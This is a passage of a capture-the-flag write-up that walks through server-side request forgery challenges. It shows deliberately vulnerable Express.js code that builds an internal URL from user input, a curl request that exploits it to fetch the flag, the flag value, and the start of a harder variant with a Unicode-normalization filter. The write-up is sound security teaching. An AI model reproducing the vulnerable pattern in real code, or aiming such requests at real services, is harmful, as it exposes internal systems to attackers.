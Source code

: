 ```js
                res.send("Got error: " + e.message)
            })
        }
    }
})

// this port is exposed publicly 
app.listen(publicPort, () => {
  console.log(`Listening on ${publicPort}`)
})
```

As can be seen, the SSRF vulnerability lies in the statement

```
const url = `http://localhost:${private1Port}${path}`
```

The path can be controlled by an attacker. For this challenge, we can send the following request to retrieve the flag:

```
curl https://wsc-2022-web-1-bvel4oasra-uc.a.run.app/ssrf?path=1/flag
```

This works because the url that the server sends request to looks like this: `http://localhost:10011/flag`, which is where the flag hides. However, in the next challenge, we're not allowed to have a number as our first character and we'll have to resort to using something else.

**Flag:** `wsc{ssrf_c4n_b3_fun_xl9m782}`



### SSRF 301

> This is almost the same as SSRF 101. Can you get by the new restriction?
> 
> https://wsc-2022-web-4-bvel4oasra-uc.a.run.app/

The challenge is exactly the same as the previous except there is one important change in public.js.

```js
const { URL } = require('url')
const http = require('http')
const express = require('express')
const app = express()
const publicPort = 80
const private1Port = 1001

app.get('/', (req, res) => {
    res.sendFile(__dirname + '/public.js')
})

// Use this endpoint to reach a web server which
// is only locally accessible. Try: /ssrf?path=/
app.get('/ssrf', (req, res) => {
    const path = req.query.path
    if (typeof path !== 'string' || path.length === 0) {
        res.send('path must be a non-empty string')
    }
    else {
        const normalizedPath = path.normalize('NFKC')
        const firstPathChar = normalizedPath.charAt(0)
        if ('0' <= firstPathChar && firstPathChar <= '9') {
            res.send('first chararacter of path must not normalize to a digit')
        }
        else {
            const url = `http://localhost:${private1Port}${normalizedPath}`
```